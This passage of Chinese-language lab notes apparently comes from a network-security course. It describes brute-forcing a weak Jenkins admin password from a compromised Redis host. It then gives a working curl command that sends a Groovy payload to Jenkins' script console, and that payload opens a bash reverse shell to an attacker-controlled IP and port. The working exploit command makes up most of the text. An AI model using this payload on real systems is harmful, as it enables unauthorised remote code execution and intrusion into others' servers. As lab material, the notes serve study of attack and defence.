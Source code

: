 ![](网安下半/实验/二层内网/第三种攻击方法.png)



### 使用密码本爆破admin若口令获得管理员账号登录权限

redis能够访问jenkins，利用python脚本使用密码本进行爆破，获取到管理员用户名和密码后在redis的shell中运行下面的代码

```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"
USERNAME="admin"
PASSWORD="admin"   

curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```


